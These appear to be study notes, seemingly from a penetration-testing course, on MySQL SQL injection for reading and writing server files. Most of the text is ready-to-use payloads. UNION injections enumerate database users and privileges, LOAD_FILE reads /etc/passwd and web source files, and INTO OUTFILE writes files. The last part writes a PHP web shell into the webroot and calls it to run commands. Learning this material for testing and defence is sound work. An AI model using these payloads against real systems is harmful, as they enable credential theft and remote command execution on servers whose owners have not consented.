 ### Reading Files

- MySQL, the DB user must have the FILE
- DB User
    - Current user
    
    ```php
    SELECT USER()
    SELECT CURRENT_USER()
    SELECT user from mysql.user
    ```
    
    - `cn' UNION SELECT 1, user(), 3, 4-- -`
    - `cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -`
- User privileges
    - `SELECT super_priv FROM mysql.user`
    - `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -`
    - `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`
    - `cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -`
    - `cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`
- Load_File
    - `SELECT LOAD_FILE('/etc/passwd');`
    - `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`
    - The default Apache webroot is /var/www/html
    - `cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -`

### Writing Files

- To be able to write files to the back-end server using a MySQL database, we require three things:
    - User with FILE privilege enabled
    - MySQL global secure_file_priv variable not enabled
    - Write access to the location we want to write to on the back-end server
    - `SHOW VARIABLES LIKE 'secure_file_priv';`
    - variables and most configurations' are stored within the INFORMATION_SCHEMA database. MySQL global variables are stored in a table called global_variables, and as per the documentation, this table has two columns variable_name and variable_value.
    - `SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"`
    - `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -`
- SELECT INTO OUTFILE
    - `SELECT * from users INTO OUTFILE '/tmp/credentials';`
    - `SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';`
    - `Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.`
- Writing Files through SQL injection
    - `select 'file written successfully!' into outfile '/var/www/html/proof.txt’`
    - Note: To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use load_file to read the server configuration, like Apache's configuration found at /etc/apache2/apache2.conf, Nginx's configuration at /etc/nginx/nginx.conf, or IIS configuration at %WinDir%\System32\Inetsrv\Config\ApplicationHost.config, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using this wordlist for Linux or this wordlist for Windows. Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.
    - `cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -`
- Writing a web shell
    - `<?php system($_REQUEST[0]); ?>`
    - `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`
    - `/shell.php?0=id`
    -